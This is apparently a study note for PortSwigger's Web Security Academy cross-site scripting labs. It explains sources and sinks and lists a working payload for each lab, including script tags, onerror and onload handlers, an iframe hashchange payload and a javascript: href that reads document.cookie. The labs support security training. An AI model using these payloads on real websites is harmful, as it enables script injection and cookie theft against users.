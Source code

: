 # DOM-Based XSS  Cross-site scripting

https://portswigger.net/web-security/all-labs#cross-site-scripting


### LAB: Reflected XSS into HTML context with nothing encoded

```
Enter the following into the search box: 
Payload : '</h1><script>alert(1)</script>
```

### Lab: Stored XSS into HTML context with nothing encoded
```
Enter the following into the comment box: 
 - Payload: comment=<script>alert(2)</script>
```



### Lab: DOM XSS in document.write sink using source location.search

A website takes something from the URL (like a search term),
And then shows it on the page using JavaScript,Without checking if it's safe.

✅ Two Important Parts:

1. Source – Where the user input comes from
   Example: location.search → This gives the part after ? in the URL.
   For example:
```
   https://example.com/page?name=hello
   location.search → "?name=hello"
```

2. Sink – Where the data is used/executed.
   Example: document.write() → This writes HTML to the page.
   If we use it directly with location.search, it can be dangerous.



Payload  : 
```
- ABC"><img src="a" onerror=alert(1)>
- ABC"><svg onload=alert(1)>
```



### Lab: DOM XSS in innerHTML sink using source location.search

Note : innerHTML we cannot insert any script tag.

Payload  : 
```
- <img src="a" onerror=alert(1)>
```


### Lab: DOM XSS in jQuery anchor href attribute sink using location.search source

Payload :
<a href="javascript:alert(document.cookie)">Click me</a>

```
javascript:alert(document.cookie)
```

### Lab: DOM XSS in jQuery selector sink using a hashchange event

```
<script>
    $(window).on('hashchange', function(){
        var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
        if (post) post.get(0).scrollIntoView();
        });
</script>
```
Payload :

```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

### Lab: Reflected XSS into attribute with angle brackets HTML-encoded


when you're dealing with XSS (Cross-Site Scripting) and < or other tag-related characters (<, >) are filtered or encoded, you need to rely on tag-less or attribute-based payloads that don't require <script> or <img> tags to execute.

<a href="https://raw.githubusercontent.com/robin113x/BSCP-Exam/refs/heads/main/Payload/tagless_xss_payloads.txt">Tagless PAyloads</a>

```
" onmouseover="alert(1)
```

### Reflected XSS into a JavaScript string with angle brackets HTML encoded
